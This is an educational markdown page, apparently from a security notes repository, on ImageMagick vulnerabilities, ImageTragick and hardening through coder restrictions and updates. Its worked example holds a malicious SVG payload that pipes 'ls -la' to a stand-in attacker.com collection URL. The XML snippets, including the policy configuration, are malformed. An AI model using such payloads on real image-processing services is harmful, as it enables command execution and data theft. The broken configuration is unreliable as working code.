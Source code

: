 # ImageMagick Security


# 👉 Overview

---

### 👀 What ?

ImageMagick is a powerful tool used for displaying, converting, and editing raster image and vector image files. It includes a number of command-line utilities for manipulating images. However, it has been found to have significant security vulnerabilities that could be exploited by attackers to execute arbitrary code or cause denial of service.


### 🧐 Why ?

Security in ImageMagick is important because it is widely used in web services to process images. Its vulnerabilities can expose these services to attacks, leading to sensitive data breaches, unauthorized system access, and disruption of services. Understanding ImageMagick security helps administrators and developers to secure their systems and applications.


### ⛏️ How ?

Securing ImageMagick involves keeping it up-to-date with the latest patches that fix known vulnerabilities. It is also important to limit the capabilities of ImageMagick to only what's necessary for your application, disable coders that are not needed, and use secure coding practices to avoid introducing new vulnerabilities. In addition, using security controls like firewalls and intrusion detection systems can help detect and prevent attacks.


### ⏳ When ?

Security issues in ImageMagick started gaining attention around 2016 when a serious vulnerability, known as 'ImageTragick', was discovered. This led to a renewed focus on securing ImageMagick and the development of more secure alternatives.


# ⚙️ Technical Explanations

---

ImageMagick is a widely utilized tool for displaying, converting, and editing images in both raster and vector formats. It's particularly useful because of its command-line utilities that allow for a wide range of image manipulation tasks. However, its usage also opens up potential security risks due to vulnerabilities inherent to the software.

Each image format that ImageMagick handles has its own set of encoders and decoders, referred to as "coders". These coders, unfortunately, can have their own set of vulnerabilities. These weaknesses can be exploited by an attacker to overflow the system's buffer, inject malicious code, or cause other types of damage.

Buffer overflow, for instance, occurs when more data is written into a block of memory, or buffer, than it can hold. This can corrupt data, crash the program, or in the worst cases, allow attackers to execute arbitrary code.

Code injection is another threat where an attacker introduces (or "injects") code into a vulnerable computer program, changing its course of execution. This can lead to serious repercussions like data loss, security breach, or even system takeover.

To mitigate these risks, it's crucial to limit the coders that ImageMagick uses to only those that are necessary for your specific application. This reduces the potential entry points for an attacker. Regularly updating ImageMagick is another essential step as patches are often released to fix known vulnerabilities.

Furthermore, secure coding practices can also harden your system against attacks. These might include techniques such as input validation, error handling, and code reviews. All of these combined can significantly strengthen the security of systems using ImageMagick.

Additionally, using security controls like firewalls and intrusion detection systems can help detect and prevent attacks. These tools provide an extra layer of security by blocking unauthorized access and alerting you to any potential attacks.

Finally, it's worth noting that security concerns with ImageMagick began to gain significant attention around 2016 with the discovery of a serious vulnerability termed 'ImageTragick'. This led to a renewed focus on securing ImageMagick and spurred the development of more secure alternatives.

As an example of how an ImageMagick vulnerability could be exploited and mitigated, consider the following scenario:

1. **Exploitation:**
Suppose we have an image upload feature on a website that uses ImageMagick to process uploaded images. An attacker could potentially exploit a vulnerability in one of ImageMagick's coders by crafting a malicious image file.
    
    ```bash
    convert evil.svg output.png
    
    ```
    
    In this command, `evil.svg` is a specially crafted SVG file that exploits a vulnerability in ImageMagick's SVG coder, and `convert` is one of ImageMagick's command-line utilities.
    
    The SVG file might contain a payload like this:
    
    ```xml
    <svg xmlns="<http://www.w3.org/2000/svg" xmlns:xlink="<http://www.w3.org/1999/xlink"
        <image xlink:href="<https://attacker.com/collect.php?data=|ls-la|" x="0" y="0" height="100px" width="100px"/
    </svg
    
    ```
    
    In this payload, `ls -la` is a command that lists all files in the current directory, and `https://attacker.com/collect.php?data=` is a URL that the attacker controls. When ImageMagick processes this SVG file, it could execute the `ls -la` command and send the output to the attacker.
    
2. **Mitigation:**
To mitigate this vulnerability, we can limit the coders that ImageMagick uses to only those that are necessary for our application. For example, if our application only needs to process PNG and JPEG images, we can disable all other coders in the ImageMagick policy configuration file:
    
    ```xml
    <policymap
        <policymap domain="coder" rights="none" pattern="*"/
        <policymap domain="coder" rights="all" pattern="PNG,JPEG"/
    </policymap
    
    ```
    
    In this configuration, the first line disables all coders, and the second line enables only the PNG and JPEG coders.
    
    Additionally, we should keep ImageMagick up-to-date to ensure that we have the latest security patches:
    
    ```bash
    sudo apt update && sudo apt upgrade imagemagick
    
    ```
    
    This command updates the package list and upgrades the ImageMagick package on a system using the apt package manager.
    
